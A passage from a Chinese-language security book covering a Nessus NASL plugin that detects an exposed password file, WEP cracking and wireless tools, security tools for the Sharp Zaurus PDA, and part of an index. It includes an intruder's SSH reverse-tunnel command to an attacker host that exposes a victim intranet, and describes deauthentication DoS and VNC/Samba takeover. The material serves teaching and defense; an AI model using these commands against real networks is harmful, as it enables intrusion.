请在您的 Nessus 安装目录中的 `plugins` 目录中查找所有随每个 Nessus 发行版捆绑提供的 NASL 脚本。可以使用 `nasl` 解释器从命令行运行 NASL 脚本：

```
nasl -t target_ipaddress script.nasl
```

###### 使用 NASL 编写 NESSUS 插件

在本节中，我们将查看一个使用 NASL 编写漏洞检查插件的示例。但首先，我们必须提出一个要检查的漏洞示例。一旦识别出漏洞，我们就可以通过编写适当的插件来使用 Nessus 检测它，如下几段所述。

####### 漏洞示例

Web 应用程序经常使用文本文件来存储应用程序设置信息。为了举例，假设一个 Web 应用程序将用户名和密码信息存储在 Web 服务器 Web 根目录中的文件（如 `/src/passwd.inc`）中。如果运行此应用程序的 Web 服务器被配置为提供 `*.inc` 文件，这种情况将被视为漏洞。外部用户可以通过向 Web 服务器请求 `/src/passwd.inc` 来利用此类漏洞，从而获取用户密码。

####### 插件

本节介绍如何使用 Nessus 检测 Web 服务器上是否存在文件 `/src/passwd.inc`。首先，我们必须编写一个 NASL 脚本来执行此操作。该脚本将充当 Nessus“插件”。此类脚本看起来如下所示：

```
if(description)
{
    script_id(99999);

    script_version("$Revision: 1.0 $");

    script_name(english: "Checks for /src/passwd.inc");
    desc["english"] = "/src/passwd.inc is usually installed by XYZ application and contains user password information in clear text.
Solution: Configure your web-browser to not serve .inc files.

Risk factor : High";

    script_description(english:desc["english"]);

    script_summary(english:"Checks for the existence of /src/passwd.inc");

    script_category(ACT_GATHER_INFO);

    script_copyright(english:"This script is Copyright (C)2003 Nitesh Dhanjani");

    script_family(english:"CGI abuses");

    script_require_ports("Services/www", 80);

    exit(0);
}

include("http_func.inc");

port = 80;
```

##### 第三部分：专题

```
if(get_port_state(port))
{
    hget = http_get(item:"/src/passwd.inc", port:port);
    mysoc = http_open_socket(port);
    if(!mysoc) exit(0);
    send(socket:mysoc, data:hget);
    myrec = http_recv(socket:mysoc);
    http_close_socket(mysoc);
    if ("404" <> myrec)
    {
        security_hole(port);
    }
}
```

当脚本由 Nessus 运行以提取插件的摘要信息时，`description` 变量的值会被设置为 1。因此，当 `description` 的值为真（即非零）时，我们定义各种插件描述变量值。

`script_id` 函数为插件设置一个唯一的 ID。每个插件的值必须是唯一的。在我们的案例中，我们可以将其设置为一个较高的数字，例如 9999，以确保其值的唯一性。`script_version` 函数显示插件的版本信息。更新此数字以反映插件的最新版本是一个好主意。`script_description` 函数设置插件的描述，该描述在用户查询插件时由 Nessus 客户端显示。类似地，`script_summary` 函数用于设置插件的摘要描述。

`script_category` 函数根据 Nessus 的要求设置插件的类别。在我们的案例中，我们将其设置为 `ACT_GATHER_INFO`，因为该插件收集远程服务的信息；也就是说，它检查 Web 服务器上是否存在 `/src/passwd.inc` 文件。`script_copyright` 函数用于设置作者版权信息。

Nessus 将插件分类到不同的“家族”中，以帮助整理执行的漏洞检查。我们将其设置为“CGI abuses”（CGI 滥用），以指示对基于 CGI 的 Web 应用程序的滥用。访问 `http://cgi.nessus.org/plugins/dump.php3?view=web&family` 可以查看按家族分类的公开可用插件列表。

Nessus 可以通过在 GUI 客户端的扫描选项选项卡中选择适当的复选框来配置以优化测试。启用此选项后，Nessus 会扫描与目标机器开放端口上运行的应用程序相关的漏洞。`script_require_ports` 函数可用于设置远程机器上与漏洞相关的端口，在我们的案例中，它被设置为 `www` (HTTP)。

上述函数为插件设置了各种描述值。要查看插件描述，只需从 Nessus GUI 客户端的插件选项卡中显示的插件列表中双击相应的插件名称即可。其截图如图 10-1 所示。

`http_func.inc` 文件包含了一组有用的 HTTP 函数，以方便我们使用。由于我们使用了该文件中定义的函数，因此使用 `include` 函数包含了该文件。

`get_port_state` 函数用于检查目标主机上特定端口的状态。在我们的案例中，我们检查端口 80。如果此端口是关闭的，继续下去就没有意义了，因此我们调用 `exit(0)`。

为了检查 Web 服务器上是否存在 `/src/passwd.inc` 文件，连接时发送给 Web 服务器的 HTTP 请求必须格式化为如下形式：

`GET /src/passwd.inc HTTP/1.0`



图 10-1. Nessus GUI 客户端显示的插件描述

可以使用 `http_get` 函数创建上述 GET 请求。然后，此请求可以作为参数传递给 `send` 函数，该函数将请求发送到由 `http_open_socket` 函数打开的套接字连接上的目标主机。使用 `http_recv` 函数读取来自 Web 服务器的结果数据，并将其内容存储在 `myrec` 变量中。完成此操作后，使用 `http_close_socket` 关闭套接字描述符。然后检查 `myrec` 的内容中是否包含子串 `404`，如果 Web 服务器上不存在该文件，则会包含此子串。这使用 `<>` 运算符完成，该运算符用于检查给定字符串变量中是否包含子串。如果 Web 服务器返回的数据中未找到 `404`，则可能表示该文件存在，通过调用 `security_hole` 函数将此事实告知 Nessus。

请参阅 [`http://www.nessus.org/doc/nasl2_reference.pdf`](http://www.nessus.org/doc/nasl2_reference.pdf) 获取最新的 NASL 参考手册。

##### 运行插件

确保将上述脚本放在 Nessus 的插件目录中。该脚本的文件名必须以扩展名 `.nasl` 结尾。运行 Nessus GUI 并选择插件选项卡。确保选中 CGI Abuses。突出显示 CGI Abuses，并确保名为“Checks for /src/passwd.inc”的插件已启用。如果难以找到该插件，请单击筛选按钮并搜索 ID 为 9999 的插件。

要获得来自插件的正结果，必须配置本地 Web 服务器以提供 `/src/passwd.inc` 文件。如果在某主机上运行 Apache Web 服务器，只需使用 `touch` 命令在 Web 服务器的 Web 根目录下创建 `/src/passwd` 文件：

```
mkdir /var/www/html/src
touch /var/www/html/src/passwd
```

在目标选择选项卡中输入目标 Web 服务器的 IP 地址或名称，然后单击开始扫描。如果一切顺利，Nessus 将检测并报告我们的自定义漏洞，如图 10-2 所示。




图 10-2. 指示易受攻击的 Web 服务器存在 `/src/passwd.inc` 的 Nessus 报告

#### 总结

本章演示了使用 NASL 语言为 Nessus 扫描器编写插件的简便性。首先，介绍了一个 Web 应用程序漏洞示例。接下来，详细讨论了创建检测此漏洞的 NASL 脚本，并逐步解释了脚本源代码。还提供了如何将 NASL 脚本合并到 Nessus 插件列表中的说明。大型组织经常使用自研软件应用程序，其中可能会发现漏洞。此外，Nessus 扫描器包可能不包含某些漏洞检查，而这些检测对于组织的安全态势至关重要。本章中包含的信息可用于从头编写 Nessus 插件，以检测此类漏洞。

## 第 11 章

## 无线黑客攻击

本章内容：

- WEP 简介

- 天线

- 流行工具

- 保护无线网络

- 总结

无线网络设置起来轻而易举，对于讨厌被以太网线缆束缚的人来说更是福音。然而，由于 802.11b 标准中使用的有线等效隐私（WEP）协议存在漏洞，从安全角度来看，无线网络也如同一场噩梦。由于 Aircrack 和 Kismet 等免费开源工具的存在，任何拥有无线网卡和笔记本电脑的人都可以入侵无线网络。已知有人开车四处转悠，寻找那些无线信号范围可能延伸至办公室空间之外（如停车场等可及区域）的公司，这种活动被称为“战驾”（war driving）。不幸的是，许多无线网络管理员没有意识到这一点，也不清楚自己容易受到此类入侵者的攻击。本章介绍了入侵者用于获取无线网络访问权限的工具和技术，并提出了如何更好地防范这些威胁的建议。

### WEP 简介

由于 WEP 基于对称共享密钥系统，它使用相同的密钥来加密和解密数据。密钥（`k`）长度为 128 位或 64 位，由 24 位的 *初始化向量* (*IV*) 组成。WEP 有效载荷的构建方式如下：

- 1. 将消息 `M` 与其自身的 CRC-32 校验和拼接：`c(M)`：


- 2. 在秘密密钥之前应用 `IV`，并通过 RC4 流密码算法：


- 3. 将步骤 1 和 2 的结果进行异或（XOR）运算以生成密文。然后将 `IV` 与密文拼接以生成 WEP 有效载荷：


从上述步骤中可以明显看出，WEP 帧以明文形式包含 IV。许多无线网卡随机选择其 IV，而另一些网卡则从 0 开始并按顺序递增。由于 `IV` 仅长 24 位，无线网卡或接入点每隔几个小时就会重用一次。

请注意，最终传输的帧包含大量其他信息，其中包括以明文形式传输的 MAC（媒体访问控制）源地址和目的地址信息。

像 Aircrack 这样的工具利用了 RC4 密钥调度算法（KSA）中的弱点。这些弱点的详细信息在一篇由 Scott Fluhrer、Itzik Mantin 和 Adi Shamir 撰写的研究论文中有所介绍。可以通过请求以下 URL 获取该论文：http://www.drizzle.com/~aboba/IEEE/rc4_ksaProc.pdf。

### 天线

在对某个区域进行无线活动审计时，找到合适使用的天线至关重要。使用天线可以接收到其他情况下无法检测到的网络的无线信号。

#### 定向天线

顾名思义，定向天线专注于特定方向以接收和发送信号。这些天线最常用于在两个位置之间建立无线桥接。定向天线通常用于在两个远程位置之间建立点对点链路。因此，在移动过程中且信号方向未知时，它们的作用不大。常见的定向天线类型包括八木（yagi）天线和抛物面天线。

#### 全向天线

全向天线通常用于扩展接入点的覆盖范围。它们在所有方向上发送和接收信号。因此，全向天线深受进行“war-driving”（驾车探测）测试的个人的欢迎。

以下是一些专注于天线业务的知名供应商列表：

- Fleeman Anderson & Bird Corp：http://fab-corp.com/

- HyperLink Technologies：http://www.hyperlinktech.com/

- NetNimble：http://www.netnimble.net/

- SuperPass：http://www.superpass.com/

- Wireless Central：http://wirelesscentral.net/

想自己制作低成本天线吗？请访问位于 http://www.turnpoint.net/wireless/has.html 的“802.11b Homebrew Antenna Shootout”。

### 常用工具

Aircrack-ng 和 Kismet 是最流行且最有用的无线黑客工具。它们可用于检测无线网络并破解启用 WEP 的网络的加密密钥。

> 在启用 WEP 的 Networks 中，入侵者必须采取的第一步是使用 Aircrack-ng 等工具获取 WEP 加密密钥。在获得密钥并成功加入无线网络后，入侵者可以使用 Ettercap、tcpdump 和 Ethertap 等流行工具来分析网络流量。

#### Aircrack-ng

如图 11-1 所示，Aircrack-ng 是一个基于 Linux 的网络嗅探工具，它被动监控无线传输以破解 WEP 加密密钥。Aircrack-ng 可在 http://aircrack-ng.org/ 获取。目前，Aircrack-ng 支持以下无线网卡：

- CISCO Aironet。

- 基于 Prism2 的卡片。请访问 http://www.linux-wlan.org/ 查看支持的卡片列表。

- Orinoco 卡片。请从 http://aircrack-ng.org/orinoco_info.html 下载驱动补丁和信息。

请参阅 Aircrack-ng 常见问题解答，以获取常见问题和疑问的答案。它位于 http://aircrack-ng.org/faq.html。



#### Kismet

如图 11-2 所示，Kismet 是一个无线网络嗅探器，可用于捕获和查看有关某区域内无线网络的信息。它具备以下特点：

- curses 接口

- 信道跳跃

- 多个数据包源

- IP 块检测

- 使用 gpsmap 支持 GPS 映射

- 在线 WEP 解密

……以及许多其他功能。请访问 http://www.kismetwireless.net/documentation.shtml 获取更多信息。

请访问 http://www.tpsybottle.com/technology/wireless/RedHat8-Kismet-HOWTO.shtml 查看在 Linux 上安装和使用 Kismet 的详细步骤。该文章中的大部分说明也适用于 Aircrack-ng。

#### Fata-Jack

Fata-Jack 是 Wlan-Jack 工具的修改版本。它向接入点发送带有已关联客户端源地址的认证请求。这个认证数据包是故意构造为包含无效信息的。当接入点收到此数据包时，会取消被仿冒地址的客户端认证。受害客户端现在必须重新向 AP 进行认证。因此，能够访问网络 AP 的恶意用户可以使用此工具发起拒绝服务攻击。



Fata-Jack 可从 http://www.loud-fat-broke.co.uk/w80211.html 下载。有关 Wlan-Jack 的信息可在 http://802.11ninja.net/ 找到。

#### 保护无线网络

使用 Aircrack-ng 等工具，通常需要约 5,000,000–10,000,000 个数据包才能破解 WEP 密钥。通常，一个活跃度合理的网络在几小时内就会传输如此数量的数据包。因此，在部署和管理无线网络时确保适当的安全性变得必要。以下是一些建议：

- **将网络视为“不可信”** 无线网络必须被视为不可信的，并与组织的内部网络隔离。如果需要允许无线用户访问受信任的网络，建议设置 VPN（虚拟专用网络），以便无线用户可以使用支持加密的 VPN 客户端进行连接。还要考虑使用支持 LEAP（轻量级可扩展认证协议）的接入点。此外，鼓励使用采用 WEP-Plus 算法的网络设备，以避免传输具有弱初始化向量的帧，从而阻止 Aircrack-ng 等软件成功破解 WEP 加密密钥。

- **鼓励使用采用加密的工具** SSH 等工具有助于创建加密隧道，应尽可能使用。内网网站必须支持 SSL。

- **不允许通过无线方式管理接入点** 一些接入点允许禁用无线管理。这是一个好主意，因为配置接入点将需要物理接触。


### 更改默认 ESSID 并禁用广播
ESSID（扩展服务集标识符）是输入到接入点和以太网卡中的一个配置参数字符串。具有相同 ESSID 的设备参与同一个网络。接入点在出厂时配置有特定的默认 ESSID，通常是供应商的名称。更改这些默认 ESSID 是一个好主意。许多接入点还会广播它们的 ESSID，以便无线客户端可以从可用网络中选择。建议配置接入点以禁用此功能，因为它向未授权使用该网络的人广播网络信息。请注意，此步骤不能保证太多安全性，不应依赖它。

### MAC 地址过滤
考虑利用支持 MAC 地址过滤的接入点，仅允许具有已知 MAC 地址的选定客户端使用网络。然而，这无法阻挡熟练的黑客，因为合法用户的 MAC 地址将以明文传输。这些地址可以从空中嗅探到，并可以被仿冒以获取网络访问权限。维护授权 MAC 地址列表是一项相当麻烦的工作，因此对于大型组织而言，这可能无法实施。

#### 总结
在介绍 WEP 协议之后，本章重点介绍了可用于滥用和检测无线网络弱点的无线安全工具。流行的 `Aircrack-ng` 工具可用于破解无线网络上正在使用的 WEP 加密密钥。`Kismet` 无线嗅探器可用于检测和识别区域内的无线网络。`Fata-Jack` 程序可用于对无线网络主机发起拒绝服务攻击。还讨论了不同类型无线天线的优点和用途。最后，本章提出了关于如何更好地保护无线网络免受入侵尝试的建议。因此，强烈建议无线网络管理员理解并执行本章提出的建议。

## 第 12 章

### 使用 Sharp Zaurus PDA 进行黑客攻击

**本章内容：**
- `Kismet`
- `Wellenreiter II`
- `Nmap`
- `Openmapfe`
- `Bing`
- `OpenSSH`
- `Hping2`
- `VNC Server`
- `Keypebble VNC Viewer`
- `Smbmount`
- `Tcpdump`
- `Wget`
- `ZEtheral`
- `zNessus`
- `MTR`
- `Dig`
- `Perl`
- `Zaurus` 在线资源
- 摘要

`Sharp Zaurus` PDA（个人数字助理）设备运行嵌入式版本的 Linux 操作系统。该 PDA 内置支持各种 Compact Flash `802.11` 网络卡片。这些特性加上 PDA 小巧的外形，使 Zaurus 成为一款功能强大的设备。在本章中，我们将介绍许多已经移植到 Zaurus 架构的 Linux 安全工具。为了满足你的好奇心，我们尽可能提供了截图。

#### Kismet
`Kismet` 是一种无线网络嗅探器，可用于捕获和查看特定区域内的无线网络信息。入侵者不再需要携带笨重的笔记本电脑来发现周围的无线网络。所需的只是一台 Zaurus PDA，以及可以在 `http://kismetwireless.net/code/` 下载的 `Kismet` 移植版。下载、解压缩并解包该网址提供的 `.tar.gz` 文件后，你会发现在创建的 `kismet-arm` 目录中有一个 `ipk` 包文件。使用文件管理器打开此文件以安装 `Kismet`，其在 PDA 上运行时的样子如下所示。



`Kismet` 的图形用户界面（GUI）可在 `http://sourceforge.net/projects/kismet-qt.e/` 获取。

#### Wellenreiter II
`Wellenreiter` 是一种无线网络监控器，可用于检测和识别特定区域内的无线网络。`Wellenreiter` 的未来版本将支持 WEP 破解和报文注入。请从 `http://opie.net.wox.org/wellenreiter/feed/` 下载 `Wellenreiter`。

#### Nmap
一旦入侵者使用 `Kismet` 等工具获得了对无线网络的访问权限，他们很可能会对该网络的 IP 范围执行网络扫描，以发现和枚举主机。`Nmap` 是当今功能最丰富的端口扫描器之一。（有关如何使用 `Nmap` 通过多种方法进行端口扫描的详细信息，请参阅第 2 章。）Zaurus 版本的 `Nmap`（如下图所示）可在 `http://familiar.handhelds.org/familiar/releases/v0.7/base/armv4tl/` 获取。



#### Openmapfe
`Openmapfe` 是图 12-3 中所示 Zaurus `Nmap` 移植版的图形前端，可在 `http://home.midsouth.rr.com/zaurus/` 获取。对于不熟悉或不习惯使用 `Nmap` 命令行参数的用户来说，这是一个非常有用的工具。



#### Bing
`Bing` 如下对话框所示，是一个自动执行端口扫描的简单脚本。运行后，它通过广播 ping 请求来发现当前子网上的活动主机。然后，它列出子网上响应 ICMP 回显请求的主机列表。然后，你可以从给定列表中选择一个主机以对其进行端口扫描（使用 `Nmap`）。请从 `http://www.claystuckey.com/chad/bing_0.0.1_arm.ipk` 下载 `Bing` 的包文件。



#### OpenSSH
`OpenSSH` 套件包括支持 SSH 协议的客户机的免费版本。它还包含 SSH 服务器的免费版本。`OpenSSH` 的 Zaurus 移植版可在 `http://killefiz.de/zaurus/showdetail.php?app=1035` 找到。

入侵者可能会使用 `OpenSSH` 客户端创建一个安全隧道，从组织的网络通向他或她舒适的家中。考虑这样一种情况：一个已获取组织无线网络访问权限的入侵者在其 PDA 上启动以下命令：

```
ssh -R 80:intranet.victimorgasanexample.com:8000 intruder@intruders_ip
```

入侵者发出此命令并输入其账户密码后，将在目标组织的网络和入侵者的主机之间建立一个安全隧道。入侵者主机上 8000 端口的任何连接都将被重定向到受害组织的内部主机 `intranet.victimorgasanexample.com` 的 80 端口，通过安全的 `OpenSSH` 隧道进行。现在，入侵者要做的只是找一个安全的地方隐藏他的 Zaurus，然后回家，以便在他方便的时候利用 `intranet.victimorgasanexample.com`！

#### Hping2
`Hping2` 是一个用于发送任意网络数据报文的工具。入侵者可以使用它来测试组织的防火墙规则集。`Hping2` 的手册页可在 `http://www.hping.org/manpage.html` 在线获取。Zaurus 移植版可在 `http://killefiz.de/zaurus/showdetail.php?app=902` 获取。

下图展示了 `Hping2` 的运行情况。注意它是使用 `-S` 标志运行的，该标志向目标主机的 111 端口发送 SYN 数据报文。由于目标主机正在监听此端口，它通过 SYN+ACK 数据报文进行响应，这在 `Hping2` 的输出中由 "`flags=SA`" 表示。



#### VNC 服务器
`VNC`（Virtual Network Computing，虚拟网络计算）是一种远程控制软件包，它使用户能够访问另一台主机的桌面。`VNC` 服务器的 Zaurus 移植版可在 `http://sdgsystems.com/download.html` 获取。Zaurus 用户可能会发现 `VNC` 服务器对远程访问其 PDA 很有用。

另一方面，由于 Zaurus PDA 可以运行各种服务器软件（如 SSH），因此可以试图对这类服务进行暴力破解攻击。一旦 PDA 上的账户被攻陷，入侵者可能会在受害 PDA 上安装 `VNC` 服务器以获取该设备的控制权（见图 12-1）。


### Keypebble VNC 查看器

很多时候，用户错误地配置 VNC 服务器，使用弱密码或没有密码。获得组织内网访问权限的入侵者可以使用 VNC 查看器连接到存在漏洞的 VNC 服务器，以获取配置错误的主机的控制权（见下图）。其中一种查看器，Keypebble VNC 查看器，适用于 Sharp Zaurus PDA，可从 http://killefiz.de/zaurus/showdetail.php?app=186 下载。



### Smbmount

`Smbmount` 工具允许用户挂载 Samba 网络共享。通常，用户错误地配置 Samba 文件共享，使用弱密码或没有密码。入侵者可以使用 `Smbmount` 工具来访问此类共享。（有关 Samba 配置错误的详细信息，请参阅第 4 章。）`Smbmount` 工具的 Zaurus 移植版可在 http://www.dasgehtdichnichts.an/zaurus/smbmount.html 找到。

### Tcpdump

`Tcpdump` 是一个流行的网络分析器程序，可用于嗅探网络段上的敏感数据（见下图）。`Tcpdump` 和其他网络分析器程序也用于网络管理员进行故障排除。Zaurus 版本的 `Tcpdump` 可从 [http://www.sklogictelsoftware.com/znetmeter/tcpdump_zaurus.html](http://www.sklogictelsoftware.com/znetmeter/tcpdump_zaurus.html) 下载。



### Wget

`Wget` 是一个使用 HTTP、HTTPS 和 FTP 协议下载文件的工具。它具有许多有用功能，包括从网站递归下载文件的能力。获得组织无线网络访问权限的入侵者可以使用 `Wget` 快速镜像组织的内网网站。`Wget` 默认安装在 Zaurus 上。

### ZEtheral

`ZEtheral` 是流行的图形化网络分析器 Ethereal 的移植版。`ZEthereal` 的二进制文件和截图可在 [http://www.cartel-info.fr/pbiondi/zaurus/zetheral.html](http://www.cartel-info.fr/pbiondi/zaurus/zetheral.html) 获取。关于 Ethereal 的详细信息和文档可在 [http://www.ethereal.com](http://www.ethereal.com) 找到。

### zNessus

`zNessus` 工具是 Nessus 图形客户端的 Zaurus 移植版。截图和二进制文件可在 [http://znessus.sourceforge.net/](http://znessus.sourceforge.net/) 获取。`zNessus` 可用于远程配置和启动漏洞检查 `Nessus` 服务器。有关 Nessus 扫描器的更多信息，请参阅第 4 章和第 11 章。

> `zNessus` 客户端要求 Nessus 服务器配置为支持未加密的通信（默认情况下，此功能是被禁用的）。如果您决定在 Nessus 服务器上禁用加密，请务必阻止所有针对您的 Nessus 端口（默认为 1241）的入站流量。请使用 `OpenSSH` 客户端连接到您的 Nessus 服务器主机，以便安全地隧道传输您的 `zNessus` 流量。

### MTR

`MTR`（`Matt's TraceRoute`，如下图所示）是一个将 `ping` 和 `traceroute` 程序的功能合二为一的工具。（有关 `ping` 和 `traceroute` 的更多信息，请参阅第 2 章。）Zaurus 的 `MTR` 端口的二进制包可从 [http://psifertex.com/zaurus/mtr_0.51_arm.ipk](http://psifertex.com/zaurus/mtr_0.51_arm.ipk) 下载。



### DIG

`dig` 工具可用于向 DNS 服务器发出查询以获取诸如 MX 记录和服务版本信息等数据，以及执行其他 DNS 查找查询。Zaurus 的 Dig 可在 [http://kiliefiz.de/zaurus/showdetail.php?app=362](http://kiliefiz.de/zaurus/showdetail.php?app=362) 获取。

### PERL

许多安全工具，如 Nikto 和 Whisker 网络漏洞扫描器，都是使用 Perl 语言编写的。由于 Perl 是一种解释型语言，因此无需重新编译现有的 Perl 脚本即可在 Zaurus 上运行它们。Zaurus 的 Perl 可在 http://zaurus.frontgarden.net/perl.html 获取。

### Zaurus 在线资源

Zaurus PDA 在 Linux 社区中备受瞩目。除了本章讨论的工具外，每天都有新的工具被创建和移植。下表中的资源提供了指向软件资源以及常见问题解答（FAQ）和社区论坛的链接。

| 描述 | URL |
| :--- | :--- |
| Zaurus 软件索引 | http://killefiz.de/zaurus/ |
| Zaurus DevNet 论坛 | http://www.zaurus.com/dev/board/ |
| Zaurus Zone | http://www.zauruszone.com/ |
| Sharp 开发者 | http://www.zaurus.com/dev/ |
| 非官方 Sharp Zaurus SL-5500 常见问题解答 | http://www.newbreedsoftware.com/zaurus-faq/ |
| ZaurusSoft 软件数据库 | http://www.zaurussoft.com/ |
| OpenZaurus 替代 ROM | http://openzaurus.org/ |

### 摘要

在本章中，您查看了可用于 Zaurus PDA 的各种安全工具。现在，用于无线网络发现、网络嗅探和扫描的工具已可供 Zaurus 使用。此外，像 Perl 这样的脚本语言已被移植到 Zaurus 上，允许用户运行使用 Perl 语言构建的安全工具。如此庞大的安全工具库以及 Linux 操作系统的灵活性，使得 Zaurus PDA 成为一个强大的工具，可用于对目标网络执行攻击和渗透任务。

## 索引

**符号和数字**

`PATH` 环境变量中的 "..."

利用其植入木马，114–115

移除以进行主机加固，132

`#`（井号），用于从 `inetd` 禁用 `FTP`，134

`0`，将本地账户 `uid` 更改为 `0`，123–124

`127.0.0.1`（环回接口），其上的无限制流量，112

**Netscape/Mozilla POP3 邮件**

处理器整数溢出

漏洞，103–104

**PGP4Pine 长消息行缓冲**

溢出，104

防止其利用，104

ARIN（美国互联网号码注册机构），其网络地址，12

ARP，欺骗，解释，59–60

ASCII（美国信息交换标准代码）表，RC 22–RC 27

### A

- 攻击

- 反弹攻击，65

- 暴力破解攻击，58–59

- DOS（拒绝服务）攻击，149–150

- 中间人攻击，60–61

- 针对 Web 代理的攻击，102–103

- 审计，启用，121

- 授权，`SSH` 中的密钥，利用，125

- 自动索引，漏洞，80–81

- 账户，移除或禁用不必要的账户，132

- `ACK` 扫描，使用 `Nmap` 执行，90

- 管理弱点

  - 搜索招聘启事中的，4

  - 搜索 Usenet 存档中的，7–8

- `Adore` rootkit，下载，127

- `Aircrack`，无线黑客工具，使用，171, 172

- `Amap`，通过其识别远程服务，36, 63

- 天线，选择用于无线活动的，171

- `Apache`（HTTP 和 HTTPS），加固，139

- `Apache`，对分块处理的漏洞，85

- APNIC（亚太互联网信息中心），其网络地址，12

- 应用程序漏洞

- `BitchX` 远程堆破坏，104

- `tcpdump` 中格式错误的 NPS 和 BGP' r 数据包缓冲溢出，103

### B

- 后门

  - 使用 `Loki2` 安装，125–126

  - 使用，122–126


- `/bin` 文件，为其分配适当的权限，147
- `/bin/ls` 二进制文件，用木马替换，126
- 二进制文件，检测对其进行的修改，127
- `BINd`（伯克利互联网名称域）
  - 配置以禁止显示版本信息，42
  - 加固，138–139
  - 漏洞，75
- `BIND` 版本信息，从 `DNS`（`TCP/UDP` 端口 53）获取，41–42
- `Bing`，在 `Zaurus PDA` 上使用，180
- `BitcX` 远程堆破坏
  - 漏洞，发生情况，104
- 反弹攻击，发生情况，65
- 暴力破解攻击
  - 防御措施，59
  - 动态，58
  - 针对 `FTP` 账户，63–64
  - 针对 `TCP` 端口 80 上的 `HTTP`（超文本传输协议），77
  - 针对 `TCP` 端口 143 上的 `IMAP/IMAP4`，92
  - 针对 `TCP` 端口 3306 上的 `MySQL`，95–96
  - 针对 `NNTP`（网络新闻传输协议），89
  - 针对 `TCP` 端口 109 上的 `POP2`（邮局协议 2），85
  - 针对 `TCP` 端口 110 上的 `POP3`（邮局协议 3），86
  - 针对 `Samba`，90
  - 针对 `SSH`（安全外壳），67–68
  - 针对 `VNC`（虚拟网络计算），97–98
- `BSM`（基本安全模块），启用以用于日志文件，154
- 缓冲溢出
  - 原因，61
  - 发生情况，116
  - 在 `OpenSSL` 中，93
  - 在 `RPC` 服务中，88
- 公司前缀，通过其查询 `RIR` 记录，13
- 配置文件，搜索敏感信息，7
- 连接窃取，发生情况，66
- `cookies`，在会话劫持中的作用，83
- `comp` 转储/漏洞，117–118
- 破解 `/etc/shadow` 文件，109–110
- `cron` 守护进程，示例，159

### D
- **数据资源**，搜索，7
- `deata.letter` 文件，搜索其内容，5
- `desproxy` 命令，与 `Web` 代理一起使用，102
- `dev` 目录，适当的文件权限，149
- `df` 命令，使用其检查 `/var` 目录中的可用空间，157
- `dig` 工具，在 `Zaurus PDA` 上使用，185
- 定向天线，用于无线活动，171
- 磁盘分区，保护，149–150
- `DNS`（域名系统）`TCP/UDP` 端口 53
  - 欺骗，74
  - 使用，41–42
  - 漏洞，74
- `DNS` 反向查找
  - 执行，14–15
  - 防止因其导致的暴露，15
- `DNSSEC`（`DNS` 安全），使用，74–75
- `dnspsp` 工具，使用其欺骗 `DNS` 响应，74
- 域名，通过其查询域名注册商记录，9–10
- 域前缀，通过其查询域名注册商记录，10–11
  - 防止因其导致的暴露，11
  - 通过域名查询，9–10
  - 通过域前缀查询，10–11
  - 通过电子邮件查询，11
  - 通过句柄查询，11
- 域名注册商，使用，8–9
- `DOS`（拒绝服务）攻击，针对可用磁盘空间发起，149–150

### E
- 电子邮件
  - 加密，73
  - 通过其查询域名注册商记录，11
  - 通过其查询 `RIR` 记录，14
- `echo` 命令，使用其打印当前用户的 `PATH` 变量，132
- `EDGAR`（电子数据收集、分析和检索），搜索，4
- 枚举远程服务，36–54
- `ESSID`（扩展服务集 `ID`），更改以禁用广播，174–175
- `/etc` 文件
  - 为其分配适当的权限，147–148
  - 保护，113
- `/etc/hosts.equiv`，检查其内容，133
- `/etc/passwd`，审计其中的 `uid` 和 `gid` 设置，124
- `/etc/shadow` 文件
  - 破解，109–110
  - 漏洞，117–118
- `Etc ecap ARP` 欺骗工具
  - 使用其嗅探和破解 `VNC` 密码，98–99
